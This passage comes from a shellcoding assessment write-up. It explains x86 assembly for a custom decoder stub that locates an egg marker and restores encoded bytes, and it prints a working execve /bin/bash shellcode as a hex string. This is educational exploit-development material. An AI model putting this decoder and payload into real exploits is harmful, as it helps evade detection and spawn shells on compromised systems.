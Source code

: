     nextSetValues : 
        cmp dword [esi + ebx + 0x4], 0xbbbbbbbb
        je EncodedShellcode

In the situation that we didn't find our egg, we search for the place to write by adding the value of the counter EDX to the EDI register.

    lea edi, [edi + edx]

Once we find where we want to write, we need to locate the set of value that we want to retrieve. To find them, we use the arithmetic computation "EBX = EBX + 2*EDX".

    mov al, 2 ; Intialize the value of eax to 2	
	mul dl	; Multiply EAX with EDX (2*edx)
	add eax, ebx  ; Add EBX to EAX (EAX = EBX + 2*EDX)
	mov ebx, eax ; mov into EBX the valu of EAX
	

We can notice that the counter's value is equal to the number of value that we need to copy :
- Counter EDX = 1, number of value to copy is 1
- Counter EDX = 2, number of value to copy is 2
- etc...

So we need to create a function which has another counter (ECX) that copy each value in the set of value that we need to retrieve (ESI + EBX + ECX) into the proper location (EDI + ECX) until that counter is less or equal to the counter EDX.

        xor ecx, ecx 			; Init the counter to zero

    nextValues :
        pusha ; Save registers state
        ; Find the location where we want to write the value
        xor eax, eax
        lea eax, [edi + ecx]                ; Value at EDI + ECX

        ;Find the value that we want to retrieve and copy in the location previously found
        add ebx, ecx                        ; EBX + ECX
        lea edx, [esi + ebx]                ; lea edx, [esi + ebx + ecx]
        mov bl, byte [edx] 			; mov the value into bl
        mov byte [eax], bl 			; mov the value we temporary stored at bl into al

        popa				; Restore the registers
        
        inc ecx			        ; Increment the counter to go to the next value of the set
        cmp ecx, edx		        ; Compare EDX and ECX		
        jle short nextValues                ; If the same value, no more value to move

Then, if the counter ECX is greater than EDX, we need to go to the next set of value.

	inc edx					; Increment the counter
	jmp short nextSetValues			; Go to the next set of value to retrieve

In this assessment, we used the JMP-CALL-POP Execve shellcode from the exercise as follows :

    \x31\xc0\x50\x68\x62\x61\x73\x68\x68\x62\x69\x6e\x2f\x68\x2f\x2f\x2f\x2f\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80

Then, we used the python encoded (see picture section Encoder) to encoded it.
